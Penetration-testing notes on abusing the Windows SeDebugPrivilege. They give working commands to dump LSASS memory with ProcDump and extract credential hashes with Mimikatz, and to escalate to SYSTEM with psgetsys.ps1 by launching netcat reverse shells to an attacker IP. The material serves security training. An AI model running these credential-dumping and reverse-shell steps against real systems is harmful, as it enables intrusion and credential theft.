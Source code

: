 To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

During an internal penetration test, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Suppose we are, for example, retrieving many NTLMv2 password hashes using `Responder` or `Inveigh`. In that case, we may want to focus our password hash cracking efforts on possible high-value accounts, such as developers who are more likely to have these types of privileges assigned to their accounts. A user may not be a local admin on a host but have rights that we cannot enumerate remotely using a tool such as BloodHound. This would be worth checking in an environment where we obtain credentials for several users and have RDP access to one or more hosts but no additional privileges.

```powershell
Privilege Name                            Description 
========================================= ====================================
SeDebugPrivilege                          Debug programs
```

### Exploitation

#### Dump + Katz
We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This is successful, and we can load this in Mimikatz using the sekurlsa::minidump command. After issuing the sekurlsa::logonPasswords commands, we gain the NTLM hash of the local administrator account logged on locally

```powershell
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

![[Pasted image 20250216110053.png]]
#### RCE as SYSTEM (RDP)
We can also leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). Using this technique, we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly

Transfer this PoC script [psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/refs/heads/master/psgetsys.ps1) over to the target system. 

Open an elevated PowerShell and find a process running as `SYSTEM`
```powershell
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

We can target winlogon.exe running under PID 612, which we know runs as SYSTEM on Windows hosts.

Run the script with the following syntax
`[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`

```powershell
. .\psgetsys.ps1

ImpersonateFromParentPid -ppid 612 -command "C:\programdata\nc.exe" -cmdargs "10.10.15.155 8443 -e powershell.exe"

ImpersonateFromParentPid -ppid (Get-Process "lsass").Id -command "C:\programdata\nc.exe" -cmdargs "10.10.15.155 8443 -e powershell.exe"
```

Old [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) 
```powershell
.\psgetsys.ps1 [MyProcess]::CreateProcessFromParent(612,"C:\Windows\System32\cmd.exe"."")

.\psgetsys.ps1 [MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id,"c:\ProgramData\nc.exe 10.10.15.155 8443 -e cmd.exe"."")
```

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`